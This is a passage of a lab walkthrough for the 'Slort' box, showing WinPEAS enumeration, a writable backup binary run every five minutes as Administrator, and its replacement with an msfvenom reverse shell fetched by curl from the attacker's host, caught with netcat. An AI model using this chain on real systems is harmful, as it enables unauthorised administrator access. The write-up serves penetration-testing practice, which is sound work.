       |                             Do you like PEASS?                                  |                                                                                                        
       |---------------------------------------------------------------------------------|                                                                                                        
       |         Learn Cloud Hacking       :     training.hacktricks.xyz                 |                                                                                                        
       |         Follow on Twitter         :     @hacktricks_live                        |                                                                                                        
       |         Respect on HTB            :     SirBroccoli                             |                                                                                                        
       |---------------------------------------------------------------------------------|                                                                                                        
       |                                 Thank you!                                      |                                                                                                        
       \---------------------------------------------------------------------------------/                                                                                                        
                                                                                                                                                                                                  

C:\xampp\htdocs\site>
```

Nothing that stands out.

Next, we check general system information

```bat
C:\xampp\htdocs\site>winpeasany.exe systeminfo         
 [!] If you want to run the file analysis checks (search sensitive information in files), you need to specify the 'fileanalysis' or 'all' argument. Note that this search might take several minutes. For help, run winpeass.exe --help                                                                                                                                                             
ANSI color bit for Windows is not set. If you are executing this from a Windows terminal inside the host you should run 'REG ADD HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
Long paths are disabled, so the maximum length of a path supported is 260 chars (this may cause false negatives when looking for files). If you are admin, you can enable it with 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v VirtualTerminalLevel /t REG_DWORD /d 1' and then start a new CMD
     
               ((((((((((((((((((((((((((((((((                                                                                                                                                   
        (((((((((((((((((((((((((((((((((((((((((((                                                                                                                                               
      ((((((((((((((**********/##########(((((((((((((                                                                                                                                            
    ((((((((((((********************/#######(((((((((((                                                                                                                                           
    ((((((((******************/@@@@@/****######((((((((((                                                                                                                                         
    ((((((********************@@@@@@@@@@/***,####((((((((((                                                                                                                                       
    (((((********************/@@@@@%@@@@/********##(((((((((                                                                                                                                      
    (((############*********/%@@@@@@@@@/************((((((((                                                                                                                                      
    ((##################(/******/@@@@@/***************((((((                                                                                                                                      
    ((#########################(/**********************(((((                                                                                                                                      
    ((##############################(/*****************(((((                                                                                                                                      
    ((###################################(/************(((((                                                                                                                                      
    ((#######################################(*********(((((                                                                                                                                      
    ((#######(,.***.,(###################(..***.*******(((((                                                                                                                                      
    ((#######*(#####((##################((######/(*****(((((                                                                                                                                      
    ((###################(/***********(##############()(((((                                                                                                                                      
    (((#####################/*******(################)((((((                                                                                                                                      
    ((((############################################)((((((                                                                                                                                       
    (((((##########################################)(((((((                                                                                                                                       
    ((((((########################################)(((((((                                                                                                                                        
    ((((((((####################################)((((((((                                                                                                                                         
    (((((((((#################################)(((((((((                                                                                                                                          
        ((((((((((##########################)(((((((((                                                                                                                                            
              ((((((((((((((((((((((((((((((((((((((                                                                                                                                              
                 ((((((((((((((((((((((((((((((                                                                                                                                                   

ADVISORY: winpeas should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it at your own devices and/or with the device owner's permission.                                                                                                                  
                                                                                                                                                                                                  
  WinPEAS-ng by @hacktricks_live                                                                                                                                                                  

       /---------------------------------------------------------------------------------\                                                                                                        
       |                             Do you like PEASS?                                  |                                                                                                        
       |---------------------------------------------------------------------------------|                                                                                                        
       |         Learn Cloud Hacking       :     training.hacktricks.xyz                 |                                                                                                        
       |         Follow on Twitter         :     @hacktricks_live                        |                                                                                                        
       |         Respect on HTB            :     SirBroccoli                             |                                                                                                        
       |---------------------------------------------------------------------------------|                                                                                                        
       |                                 Thank you!                                      |                                                                                                        
       \---------------------------------------------------------------------------------/                                                                                                        
                                                                                                                                                                                                  
  [+] Legend:
         Red                Indicates a special privilege over an object or something is misconfigured
         Green              Indicates that some protection is enabled or something is well configured
         Cyan               Indicates active users
         Blue               Indicates disabled users
         LightYellow        Indicates links

 You can find a Windows local PE Checklist here: https://book.hacktricks.wiki/en/windows-hardening/checklist-windows-privilege-escalation.html
   Creating Dynamic lists, this could take a while, please wait...                                                                                                                                
   - Loading sensitive_files yaml definitions file...
   - Loading regexes yaml definitions file...
   - Checking if domain...
   - Getting Win32_UserAccount info...
   - Creating current user groups list...
   - Creating active users list (local only)...
   - Creating disabled users list...
   - Admin users list...
   - Creating AppLocker bypass list...
   - Creating files/directories list for search...
        [skipped, file search is disabled]


�����������������������������������͹ System Information �������������������������������������

����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#version-exploits
    OS Name: Microsoft Windows 10 Pro
    OS Version: 10.0.19042 N/A Build 19042
    System Type: x64-based PC
    Hostname: slort
    ProductName: Windows 10 Pro
    EditionID: Professional
    ReleaseId: 2009
    BuildBranch: vb_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 2
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: True
    Current Time: 3/17/2026 6:00:08 AM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: KB5009467 (5/4/2022), KB4562830 (12/3/2021), KB5007253 (12/3/2021), KB5006753 (12/3/2021), KB5007273 (12/3/2021), 


����������͹ Showing All Microsoft Updates
   HotFix ID                :   KB4023057
   Installed At (UTC)       :   5/4/2022 8:31:21 AM
   Title                    :   2022-04 Update for Windows 10 Version 20H2 for x64-based Systems (KB4023057)
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   A security issue has been identified in a Microsoft software product that could affect your system. You can help protect your system by installing this update from Microsoft. For a complete listing of the issues that are included in this update, see the associated Microsoft Knowledge Base article. After you install this update, you may have to restart your system.

   =================================================================================================

   HotFix ID                :   KB5005463
   Installed At (UTC)       :   5/4/2022 8:31:18 AM
   Title                    :   2022-04 Update for Windows 10 Version 20H2 for x64-based Systems (KB5005463)
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   A security issue has been identified in a Microsoft software product that could affect your system. You can help protect your system by installing this update from Microsoft. For a complete listing of the issues that are included in this update, see the associated Microsoft Knowledge Base article. After you install this update, you may have to restart your system.

   =================================================================================================

   HotFix ID                :   
   Installed At (UTC)       :   5/4/2022 8:28:44 AM
   Title                    :   VMware, Inc. - Net - 1.9.5.0
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   VMware, Inc. Net  driver update released in  November 2021

   =================================================================================================

   HotFix ID                :   
   Installed At (UTC)       :   5/4/2022 8:28:41 AM
   Title                    :   VMware, Inc. - System - 9.8.18.0
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   VMware, Inc. System  driver update released in  October 2021

   =================================================================================================

   HotFix ID                :   KB890830
   Installed At (UTC)       :   5/4/2022 8:28:31 AM
   Title                    :   Windows Malicious Software Removal Tool x64 - v5.98 (KB890830)
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   After the download, this tool runs one time to check your computer for infection by specific, prevalent malicious software (including Blaster, Sasser, and Mydoom) and helps remove any infection that is found. If an infection is found, the tool will display a status report the next time that you start your computer. A new version of the tool will be offered every month. If you want to manually run the tool on your computer, you can download a copy from the Microsoft Download Center, or you can run an online version from microsoft.com. This tool is not a replacement for an antivirus product. To help protect your computer, you should use an antivirus product.

   =================================================================================================

   HotFix ID                :   KB5009467
   Installed At (UTC)       :   5/4/2022 8:27:00 AM
   Title                    :   2022-02 Cumulative Update for .NET Framework 3.5 and 4.8 for Windows 10 Version 20H2 for x64 (KB5009467)
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   Install this update to resolve issues in Windows. For a complete listing of the issues that are included in this update, see the associated Microsoft Knowledge Base article for more information. After you install this item, you may have to restart your computer.

   =================================================================================================

   HotFix ID                :   KB5011487
   Installed At (UTC)       :   4/4/2022 11:52:30 PM
   Title                    :   2022-03 Cumulative Update for Windows 10 Version 20H2 for x64-based Systems (KB5011487)
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   Install this update to resolve issues in Windows. For a complete listing of the issues that are included in this update, see the associated Microsoft Knowledge Base article for more information. After you install this item, you may have to restart your computer.

   =================================================================================================

   HotFix ID                :   KB5007253
   Installed At (UTC)       :   12/4/2021 1:17:44 AM
   Title                    :   2021-11 Cumulative Update Preview for Windows 10 Version 20H2 for x64-based Systems (KB5007253)
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   Install this update to resolve issues in Windows. For a complete listing of the issues that are included in this update, see the associated Microsoft Knowledge Base article for more information. After you install this item, you may have to restart your computer.

   =================================================================================================

   HotFix ID                :   KB5007253
   Installed At (UTC)       :   12/4/2021 1:01:30 AM
   Title                    :   2021-11 Cumulative Update Preview for Windows 10 Version 20H2 for x64-based Systems (KB5007253)
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   Install this update to resolve issues in Windows. For a complete listing of the issues that are included in this update, see the associated Microsoft Knowledge Base article for more information. After you install this item, you may have to restart your computer.

   =================================================================================================

   HotFix ID                :   KB5007289
   Installed At (UTC)       :   12/4/2021 1:00:33 AM
   Title                    :   2021-11 Cumulative Update Preview for .NET Framework 3.5 and 4.8 for Windows 10 Version 20H2 for x64 (KB5007289)
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   Install this update to resolve issues in Windows. For a complete listing of the issues that are included in this update, see the associated Microsoft Knowledge Base article for more information. After you install this item, you may have to restart your computer.

   =================================================================================================

   HotFix ID                :   KB4023057
   Installed At (UTC)       :   12/4/2021 12:58:27 AM
   Title                    :   2021-09 Update for Windows 10 Version 20H2 for x64-based Systems (KB4023057)
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   A security issue has been identified in a Microsoft software product that could affect your system. You can help protect your system by installing this update from Microsoft. For a complete listing of the issues that are included in this update, see the associated Microsoft Knowledge Base article. After you install this update, you may have to restart your system.

   =================================================================================================

   HotFix ID                :   
   Installed At (UTC)       :   12/4/2021 12:58:18 AM
   Title                    :   VMware, Inc. - System - 9.8.16.0
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   VMware, Inc. System  driver update released in  July 2019

   =================================================================================================

   HotFix ID                :   KB5005463
   Installed At (UTC)       :   12/4/2021 12:58:15 AM
   Title                    :   2021-10 Update for Windows 10 Version 20H2 for x64-based Systems (KB5005463)
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   A security issue has been identified in a Microsoft software product that could affect your system. You can help protect your system by installing this update from Microsoft. For a complete listing of the issues that are included in this update, see the associated Microsoft Knowledge Base article. After you install this update, you may have to restart your system.

   =================================================================================================

   HotFix ID                :   
   Installed At (UTC)       :   12/4/2021 12:58:06 AM
   Title                    :   VMware, Inc. - Net - 1.9.2.0
   Client Application ID    :   MoUpdateOrchestrator
   Description              :   VMware, Inc. Net  driver update released in  April 2021

   =================================================================================================

   HotFix ID                :   
   Installed At (UTC)       :   12/4/2021 12:37:42 AM
   Title                    :   Feature update to Windows 10, version 20H2
   Client Application ID    :   UpdateOrchestrator
   Description              :   Install the latest update for Windows 10: Windows 10, version 20H2.

   =================================================================================================


����������͹ System Last Shutdown Date/time (from Registry)
                                                                                                                                                                                                  
    Last Shutdown Date/time        :    5/4/2022 1:52:33 AM

����������͹ User Environment Variables
� Check for some passwords or keys in the env variables 
    COMPUTERNAME: SLORT
    USERPROFILE: C:\Users\rupert
    HOMEPATH: \Users\rupert
    LOCALAPPDATA: C:\Users\rupert\AppData\Local
    PSModulePath: C:\Program Files\WindowsPowerShell\Modules;C:\WINDOWS\system32\WindowsPowerShell\v1.0\Modules
    PROCESSOR_ARCHITECTURE: AMD64
    Path: C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem;C:\WINDOWS\System32\WindowsPowerShell\v1.0\;C:\WINDOWS\System32\OpenSSH\;C:\Users\rupert\AppData\Local\Microsoft\WindowsApps;
    CommonProgramFiles(x86): C:\Program Files (x86)\Common Files
    ProgramFiles(x86): C:\Program Files (x86)
    PROCESSOR_LEVEL: 25
    LOGONSERVER: \\SLORT
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
    HOMEDRIVE: C:
    SystemRoot: C:\WINDOWS
    SESSIONNAME: Console
    ALLUSERSPROFILE: C:\ProgramData
    DriverData: C:\Windows\System32\Drivers\DriverData
    AP_PARENT_PID: 3952
    APPDATA: C:\Users\rupert\AppData\Roaming
    PROCESSOR_REVISION: 0101
    USERNAME: rupert
    CommonProgramW6432: C:\Program Files\Common Files
    OneDrive: C:\Users\rupert\OneDrive
    CommonProgramFiles: C:\Program Files\Common Files
    OS: Windows_NT
    USERDOMAIN_ROAMINGPROFILE: SLORT
    PROCESSOR_IDENTIFIER: AMD64 Family 25 Model 1 Stepping 1, AuthenticAMD
    ComSpec: C:\WINDOWS\system32\cmd.exe
    PROMPT: $P$G
    SystemDrive: C:
    TEMP: C:\Users\rupert\AppData\Local\Temp
    ProgramFiles: C:\Program Files
    NUMBER_OF_PROCESSORS: 2
    TMP: C:\Users\rupert\AppData\Local\Temp
    ProgramData: C:\ProgramData
    ProgramW6432: C:\Program Files
    windir: C:\WINDOWS
    USERDOMAIN: SLORT
    PUBLIC: C:\Users\Public

����������͹ System Environment Variables
� Check for some passwords or keys in the env variables 
    ComSpec: C:\WINDOWS\system32\cmd.exe
    DriverData: C:\Windows\System32\Drivers\DriverData
    OS: Windows_NT
    Path: C:\WINDOWS\system32;C:\WINDOWS;C:\WINDOWS\System32\Wbem;C:\WINDOWS\System32\WindowsPowerShell\v1.0\;C:\WINDOWS\System32\OpenSSH\
    PATHEXT: .COM;.EXE;.BAT;.CMD;.VBS;.VBE;.JS;.JSE;.WSF;.WSH;.MSC
    PROCESSOR_ARCHITECTURE: AMD64
    PSModulePath: C:\Program Files\WindowsPowerShell\Modules;C:\WINDOWS\system32\WindowsPowerShell\v1.0\Modules
    TEMP: C:\WINDOWS\TEMP
    TMP: C:\WINDOWS\TEMP
    USERNAME: SYSTEM
    windir: C:\WINDOWS
    NUMBER_OF_PROCESSORS: 2
    PROCESSOR_LEVEL: 25
    PROCESSOR_IDENTIFIER: AMD64 Family 25 Model 1 Stepping 1, AuthenticAMD
    PROCESSOR_REVISION: 0101

����������͹ Audit Settings
� Check what is being logged 
    Not Found

����������͹ Audit Policy Settings - Classic & Advanced

����������͹ WEF Settings
� Windows Event Forwarding, is interesting to know were are sent the logs 
    Not Found

����������͹ LAPS Settings
� If installed, local administrator password is changed frequently and is restricted by ACL 
    LAPS Enabled: LAPS not installed

����������͹ Wdigest
� If enabled, plain-text crds could be stored in LSASS https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#wdigest
    Wdigest is not enabled

����������͹ LSA Protection
� If enabled, a driver is needed to read LSASS memory (If Secure Boot or UEFI, RunAsPPL cannot be disabled by deleting the registry key) https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#lsa-protection                                                                                                                                             
    LSA Protection is not enabled

����������͹ Credentials Guard
� If enabled, a driver is needed to read LSASS memory https://book.hacktricks.wiki/windows-hardening/stealing-credentials/credentials-protections#credentials-guard
    CredentialGuard is not enabled
    Virtualization Based Security Status:      Not enabled
    Configured:                                False
    Running:                                   False

����������͹ Cached Creds
� If > 0, credentials will be cached in the registry and accessible by SYSTEM user https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#cached-credentials                                                                                                                                                                                               
    cachedlogonscount is 10

����������͹ Enumerating saved credentials in Registry (CurrentPass)

����������͹ AV Information
    Some AV was detected, search for bypasses
    Name: Windows Defender
    ProductEXE: windowsdefender://
    pathToSignedReportingExe: %ProgramFiles%\Windows Defender\MsMpeng.exe

����������͹ Windows Defender configuration
  Local Settings
  Group Policy Settings

����������͹ UAC Status
� If you are in the Administrators group check how to bypass the UAC https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#from-administrator-medium-to-high-integrity-level--uac-bypasss                                                                                                                                                                 
    ConsentPromptBehaviorAdmin: 5 - PromptForNonWindowsBinaries
    EnableLUA: 1
    LocalAccountTokenFilterPolicy: 
    FilterAdministratorToken: 0
      [*] LocalAccountTokenFilterPolicy set to 0 and FilterAdministratorToken != 1.
      [-] Only the RID-500 local admin account can be used for lateral movement.                                                                                                                  

����������͹ PowerShell Settings
    PowerShell v2 Version: 2.0
    PowerShell v5 Version: 5.1.19041.1
    PowerShell Core Version: 
    Transcription Settings: 
    Module Logging Settings: 
    Scriptblock Logging Settings: 
    PS history file: 
    PS history size: 

����������͹ Enumerating PowerShell Session Settings using the registry
      You must be an administrator to run this check

����������͹ PS default transcripts history
� Read the PS history inside these files (if any)

����������͹ HKCU Internet Settings
    CertificateRevocation: 1
    DisableCachingOfSSLPages: 0
    IE5_UA_Backup_Flag: 5.0
    PrivacyAdvanced: 1
    SecureProtocols: 2688
    User Agent: Mozilla/4.0 (compatible; MSIE 8.0; Win32)
    ZonesSecurityUpgrade: System.Byte[]
    EnableNegotiate: 1
    MigrateProxy: 1
    ProxyEnable: 0
    WarnonZoneCrossing: 0
    LockDatabase: 132961217149600600

����������͹ HKLM Internet Settings
    ActiveXCache: C:\Windows\Downloaded Program Files
    CodeBaseSearchPath: CODEBASE
    EnablePunycode: 1
    MinorVersion: 0
    WarnOnIntranet: 1

����������͹ Drives Information
� Remember that you should search more info inside the other drives 
    C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 26 GB)(Permissions: Authenticated Users [Allow: AppendData/CreateDirectories])
    D:\ (Type: CDRom)

����������͹ Checking WSUS
�  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#wsus
    Not Found

����������͹ Checking KrbRelayUp
�  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#krbrelayup
  The system isn't inside a domain, so it isn't vulnerable

����������͹ Checking If Inside Container
� If the binary cexecsvc.exe or associated service exists, you are inside Docker 
You are NOT inside a container

����������͹ Checking AlwaysInstallElevated
�  https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#alwaysinstallelevated
    AlwaysInstallElevated isn't available

����������͹ Object Manager race-window amplification primitives
� Project Zero write-up: https://projectzero.google/2025/12/windows-exploitation-techniques.html
    Created a test named event (PEAS_OMNS_8108_7e8682719fd04458a7328cfd87287401) under \BaseNamedObjects.
�     -> Low-privileged users can slow NtOpen*/NtCreate* lookups using ~32k-character names or ~16k-level directory chains.
�     -> Point attacker-controlled symbolic links to the slow path to stretch kernel race windows.
�     -> Use this whenever a bug follows check -> NtOpenX -> privileged action patterns.

����������͹ Enumerate LSA settings - auth packages included
                                                                                                                                                                                                  
    auditbasedirectories                 :       0
    auditbaseobjects                     :       0
    Bounds                               :       00-30-00-00-00-20-00-00
    crashonauditfail                     :       0
    fullprivilegeauditing                :       00
    LimitBlankPasswordUse                :       1
    NoLmHash                             :       1
    Security Packages                    :       ""
    Notification Packages                :       scecli
    Authentication Packages              :       msv1_0
    disabledomaincreds                   :       0
    everyoneincludesanonymous            :       0
    forceguest                           :       0
    LsaCfgFlagsDefault                   :       0
    LsaPid                               :       644
    ProductType                          :       6
    restrictanonymous                    :       0
    restrictanonymoussam                 :       1
    SecureBoot                           :       1

����������͹ Enumerating NTLM Settings
  LanmanCompatibilityLevel    :  (Send NTLMv2 response only - Win7+ default)
                                                                                                                                                                                                  

  NTLM Signing Settings                                                                                                                                                                           
      ClientRequireSigning    : False
      ClientNegotiateSigning  : True
      ServerRequireSigning    : False
      ServerNegotiateSigning  : False
      LdapSigning             : Negotiate signing (Negotiate signing)

  Session Security                                                                                                                                                                                
      NTLMMinClientSec        : 536870912 (Require 128-bit encryption)
      NTLMMinServerSec        : 536870912 (Require 128-bit encryption)
                                                                                                                                                                                                  

  NTLM Auditing and Restrictions                                                                                                                                                                  
      InboundRestrictions     :  (Not defined)
      OutboundRestrictions    :  (Not defined)
      InboundAuditing         :  (Not defined)
      OutboundExceptions      : 

����������͹ Display Local Group Policy settings - local users/machine

����������͹ Potential GPO abuse vectors (applied domain GPOs writable by current user)
    Host is not joined to a domain or domain info is unavailable.

����������͹ Checking AppLocker effective policy
   AppLockerPolicy version: 1
   listing rules:


����������͹ PrintNightmare PointAndPrint Policies
� Check PointAndPrint policy hardening https://itm4n.github.io/printnightmare-exploitation/
    Not Found

����������͹ Enumerating Printers (WMI)

����������͹ Enumerating Named Pipes
  Name                                                                                                 CurrentUserPerms                                                       Sddl

  eventlog                                                                                             Everyone [Allow: WriteData/CreateFiles]                                O:LSG:LSD:P(A;;0x12019b;;;WD)(A;;CC;;;OW)(A;;0x12008f;;;S-1-5-80-880578595-1860270145-482643319-2788375705-1540778122)

  ROUTER                                                                                               Everyone [Allow: WriteData/CreateFiles]                                O:SYG:SYD:P(A;;0x12019b;;;WD)(A;;0x12019b;;;AN)(A;;FA;;;SY)

  SearchTextHarvester                                                                                                                                                         O:SYG:SYD:P(D;;FA;;;NU)(D;;FA;;;BG)(A;;FR;;;IU)(A;;FA;;;SY)(A;;FA;;;BA)

  vgauth-service                                                                                       Everyone [Allow: WriteData/CreateFiles]                                O:BAG:SYD:P(A;;0x12019f;;;WD)(A;;FA;;;SY)(A;;FA;;;BA)


����������͹ Named Pipes with Low-Priv Write Access to Privileged Servers
    \\.\pipe\eventlog
      Low-priv ACLs  : Everyone [CreateFiles|WriteAttributes|WriteData|WriteExtendedAttributes]
      Observed owners: No privileged handles observed (service idle or access denied)
      SDDL           : O:LSG:LSD:P(A;;0x12019b;;;WD)(A;;CC;;;OW)(A;;0x12008f;;;S-1-5-80-880578595-1860270145-482643319-2788375705-1540778122)
   =================================================================================================

    \\.\pipe\ROUTER
      Low-priv ACLs  : Everyone [CreateFiles|WriteAttributes|WriteData|WriteExtendedAttributes]; NT AUTHORITY\ANONYMOUS LOGON [CreateFiles|WriteAttributes|WriteData|WriteExtendedAttributes]
      Observed owners: No privileged handles observed (service idle or access denied)
      SDDL           : O:SYG:SYD:P(A;;0x12019b;;;WD)(A;;0x12019b;;;AN)(A;;FA;;;SY)
   =================================================================================================

    \\.\pipe\SearchTextHarvester
      Low-priv ACLs  : NT AUTHORITY\NETWORK [FullControl]; BUILTIN\Guests [FullControl]
      Observed owners: No privileged handles observed (service idle or access denied)
      SDDL           : O:SYG:SYD:P(D;;FA;;;NU)(D;;FA;;;BG)(A;;FR;;;IU)(A;;FA;;;SY)(A;;FA;;;BA)
   =================================================================================================

    \\.\pipe\vgauth-service
      Low-priv ACLs  : Everyone [AppendData|CreateDirectories|CreateFiles|Write|WriteAttributes|WriteData|WriteExtendedAttributes]
      Observed owners: No privileged handles observed (service idle or access denied)
      SDDL           : O:BAG:SYD:P(A;;0x12019f;;;WD)(A;;FA;;;SY)(A;;FA;;;BA)
   =================================================================================================


����������͹ Enumerating AMSI registered providers

����������͹ Enumerating Sysmon configuration
      You must be an administrator to run this check

����������͹ Enumerating Sysmon process creation logs (1)
      You must be an administrator to run this check

����������͹ Installed .NET versions
                                                                                                                                                                                                  
  CLR Versions
   4.0.30319

  .NET Versions                                                                                                                                                                                   
   4.8.04084

  .NET & AMSI (Anti-Malware Scan Interface) support                                                                                                                                               
      .NET version supports AMSI     : True
      OS supports AMSI               : True
        [!] The highest .NET version is enrolled in AMSI!

       /---------------------------------------------------------------------------------\                                                                                                        
       |                             Do you like PEASS?                                  |                                                                                                        
       |---------------------------------------------------------------------------------|                                                                                                        
       |         Learn Cloud Hacking       :     training.hacktricks.xyz                 |                                                                                                        
       |         Follow on Twitter         :     @hacktricks_live                        |                                                                                                        
       |         Respect on HTB            :     SirBroccoli                             |                                                                                                        
       |---------------------------------------------------------------------------------|                                                                                                        
       |                                 Thank you!                                      |                                                                                                        
       \---------------------------------------------------------------------------------/                                                                                                        
                                                                                                                                                                                                  

C:\xampp\htdocs\site>
```

Nothing obvious there either.

Checking the file system we find a backup directory

```bat
C:\xampp\htdocs\site> dir C:\
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\

07/20/2020  07:08 AM    <DIR>          Backup
03/17/2026  03:58 AM             2,847 output.txt
12/07/2019  02:14 AM    <DIR>          PerfLogs
05/04/2022  01:06 AM    <DIR>          Program Files
12/03/2021  09:22 AM    <DIR>          Program Files (x86)
12/03/2021  09:29 AM    <DIR>          Users
05/04/2022  01:52 AM    <DIR>          Windows
06/12/2020  08:11 AM    <DIR>          xampp
               1 File(s)          2,847 bytes
               7 Dir(s)  28,377,780,224 bytes free

C:\xampp\htdocs\site> dir C:\
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\

07/20/2020  07:08 AM    <DIR>          Backup
03/17/2026  03:58 AM             2,847 output.txt
12/07/2019  02:14 AM    <DIR>          PerfLogs
05/04/2022  01:06 AM    <DIR>          Program Files
12/03/2021  09:22 AM    <DIR>          Program Files (x86)
12/03/2021  09:29 AM    <DIR>          Users
05/04/2022  01:52 AM    <DIR>          Windows
06/12/2020  08:11 AM    <DIR>          xampp
               1 File(s)          2,847 bytes
               7 Dir(s)  28,377,780,224 bytes free

C:\xampp\htdocs\site> dir C:\Backup
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

07/20/2020  07:08 AM    <DIR>          .
07/20/2020  07:08 AM    <DIR>          ..
06/12/2020  07:45 AM            11,304 backup.txt
06/12/2020  07:45 AM                73 info.txt
06/23/2020  07:49 PM            73,802 TFTP.EXE
               3 File(s)         85,179 bytes
               2 Dir(s)  28,377,780,224 bytes free

C:\xampp\htdocs\site> type C:\Backup\info.txt
Run every 5 minutes:
C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
C:\xampp\htdocs\site>cd C:\Backup

C:\Backup> icacls tftp.exe
tftp.exe BUILTIN\Users:(I)(F)
         BUILTIN\Administrators:(I)(F)
         NT AUTHORITY\SYSTEM:(I)(F)
         NT AUTHORITY\Authenticated Users:(I)(M)

Successfully processed 1 files; Failed processing 0 files

C:\Backup>
```

We can overwrite the `tftp.exe` binary that runs every 5 minutes.

### Create a reverse shell with msfvenom

We create a reverse shell with msfvenom

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ msfvenom -p windows/x64/shell_reverse_tcp -f exe -o revshell.exe LHOST=tun0 LPORT=12346
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
```

Start another netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ nc -lvnp 12346                            
listening on [any] 12346 ...

```

And overwrite the binary

```bat
C:\Backup>ren TFTP.EXE TFTP.bak

C:\Backup>curl http://192.168.45.167:8000/revshell.exe -o TFTP.EXE
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  7168  100  7168    0     0   7168      0  0:00:01 --:--:--  0:00:01 91897

C:\Backup>dir
 Volume in drive C has no label.
 Volume Serial Number is 6E11-8C59

 Directory of C:\Backup

03/17/2026  06:22 AM    <DIR>          .
03/17/2026  06:22 AM    <DIR>          ..
06/12/2020  07:45 AM            11,304 backup.txt
06/12/2020  07:45 AM                73 info.txt
06/23/2020  07:49 PM            73,802 TFTP.bak
03/17/2026  06:22 AM             7,168 TFTP.EXE
               4 File(s)         92,347 bytes
               2 Dir(s)  28,377,694,208 bytes free

C:\Backup>
```

Then we wait a few minutes for the connection

```bash
┌──(kali㉿kali)-[/mnt/…/OffSec_PG/PG_Practice/Intermediate/Slort]
└─$ nc -lvnp 12346                            
listening on [any] 12346 ...
connect to [192.168.45.167] from (UNKNOWN) [192.168.212.53] 50800
Microsoft Windows [Version 10.0.19042.1387]
(c) Microsoft Corporation. All rights reserved.

C:\WINDOWS\system32>whoami
whoami
slort\administrator

C:\WINDOWS\system32>
```

### Get the root flag

Finally, we get the root flag

```bat
C:\WINDOWS\system32> where /R C:\Users root.txt
where /R C:\Users root.txt
INFO: Could not find files for the given pattern(s).

C:\WINDOWS\system32> where /R C:\Users proof.txt
where /R C:\Users proof.txt
C:\Users\Administrator\Desktop\proof.txt

C:\WINDOWS\system32> type C:\Users\Administrator\Desktop\proof.txt
type C:\Users\Administrator\Desktop\proof.txt
a<REDACTED>5

C:\WINDOWS\system32>
```

The scheduled tasks that runs every 5 minutes is:

```bat
C:\WINDOWS\system32> schtasks.exe /query /tn Backup /v /fo list
schtasks.exe /query /tn Backup /v /fo list

Folder: \
HostName:                             SLORT
TaskName:                             \Backup
Next Run Time:                        3/17/2026 6:30:00 AM
Status:                               Running
Logon Mode:                           Interactive/Background
Last Run Time:                        3/17/2026 6:25:00 AM
Last Result:                          267009
Author:                               SLORT\Administrator
Task To Run:                          C:\Backup\TFTP.EXE -i 192.168.234.57 get backup.txt
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          Administrator
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        One Time Only, Minute 
Start Time:                           6:45:00 AM
Start Date:                           7/20/2020
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        0 Hour(s), 5 Minute(s)
Repeat: Until: Time:                  None
Repeat: Until: Duration:              Disabled
Repeat: Stop If Still Running:        Disabled

C:\WINDOWS\system32>
```

For additional information, please see the references below.

## References

- [Apache HTTP Server - Wikipedia](https://en.wikipedia.org/wiki/Apache_HTTP_Server)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [cURL - Wikipedia](https://en.wikipedia.org/wiki/CURL)
- [dir - Microsoft Learn](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/dir)
